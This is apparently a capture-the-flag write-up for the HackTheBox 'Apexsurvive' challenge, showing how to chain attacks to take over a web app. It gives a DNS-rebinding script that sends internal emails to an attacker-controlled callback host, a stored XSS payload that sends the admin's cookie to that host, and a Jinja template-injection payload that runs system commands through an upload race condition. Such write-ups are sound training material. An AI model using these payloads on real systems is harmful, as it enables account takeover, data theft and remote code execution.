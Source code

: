 +++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = false
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to *test@email.htb*.

![EmailCode](test-email.png)

We create a user with the email *test@email.htb* and confirm the registration by visiting the link from an email.

![Verify email 1](verify-email-1.png)

![Verify email 2](verify-email-2.png)

## DNS Rebinding to Activate an Internal User
Upon further code inspection, we found out that users who sign up with an email hosted at *apexsurvive.htb* will be marked as internal users.

![VerificationCode](apexsurvive-email.png)

There's an */external* API endpoint that can be used for an open redirect.

![Open redirect](open-redirect.png)

The emails are served by Mailhog running on port 9000 and can be internally retrieved by using the */api/v2/messages* endpoint.

![Mailhog port](mailhog-port.png)

We create a user *asdf@apexsurvive.htb*.

![Apex register](apex-register.png)

We log in and request a verification email. It won't appear in emails on the website.

![Apex verify](apex-verify.png)

We'll use the /external endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from Mailhog running on port 9000 and get the confirmation email for the internal user. To do this, we'll set up an EC2 instance with a public IP address and then add a DNS NS record for it (keep in mind the dot at the end):

![DNS config](dns-config.png)

We have to allow incoming traffic from ports UDP 53 (for DNS) and TCP 9000 (for the HTTP server) at minimum. We configure the security group of our EC2 instance as following.

![Security group configuration](security-group.png)

On the instance, we'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from EC2 public IP address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an HTTP server on it serving index.html that keeps fetching /api/v2/messages for Mailhog emails and then sends them back to us. **Remember it has to be on the same origin (port 9000).**

    sudo python3 -m http.server 9000

*index.html* served by the HTTP server:

    <html>
    <body>
    <script>
        (function () {
            var axhr = new XMLHttpRequest();
            axhr.open('GET', 'http://myburpcollab.oastify.com?start=start');
            axhr.send()
            var interval = setInterval(function () {
                var xhr = new XMLHttpRequest();
                xhr.open('GET', 'http://dynamic.mywebsite.xyz:9000/api/v2/messages', false);
                xhr.onload = function () {
                    if (xhr.status != 200) { return; }
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open('GET', `http://myburpcollab.oastify.com?msgs=${btoa(this.responseText)}`);
                    xhr2.send();
                };
                xhr.send()
            }, 200)
        })();
    </script>
    </body>
    </html>

The script keeps fetching *http://dynamic.mywebsite.xyz:9000/api/v2/messages* in short intervals. which is on the same origin. After a while our DNS rebinder should switch from the EC2 IP address to localhost. Then, the script will successfully fetch the emails and send them back to us in base64.

We log in as *test@email.htb* and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public API.

![DNS rebind](dns-rebind.png)

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after the one with query parameter *start=start* one contains base64 encoded emails from Mailhog API. We decode them and get the confirmation link for the internal user.

![Exfiltrated emails](exfiltrated-emails.png)
![Base64 emails](base64-emails.png)

## Stored XSS to Steal the Session Cookie From the Admin
As an internal user, we now can add products. In */application/templates/product.html* we notice that the *product.note* (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

![Product note JS string escape](product-note.png)

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

![Add product](add-product.png)

We double-check we escaped JS backticks after adding the product:

![JS backtick escape](js-backtick-escape.png)

After we create it, we make the admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

![Admin session XSS](admin-session-xss.png)

## Leveraging a Race Condition for SSTI Leading to RCE
As an admin, we now can add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a PDF,
- we can save the file anywhere by path traversal using “..” in the filename,
- the PDF check takes the temporary file from the file system, not directly from the request.

![Race condition in PDF upload](pdf-upload-race-condition.png)

As a result, **there’s a race condition between saving the temp file and checking that it’s a PDF.**

We prepare 2 files:
1) a small PDF,
2) a Jinja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

![Burp parallel requests setup 1](burp-parallel-1.png)
![Burp parallel requests setup 2](burp-parallel-2.png)

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of PDF/Jinja template requests in the group. We watch out for *message: Contract added* in a response to a Jinja template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under */static/images/flag.txt*.

![Result 0](result-0.png)
![Apex flag](apex-flag.png)

## References
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine
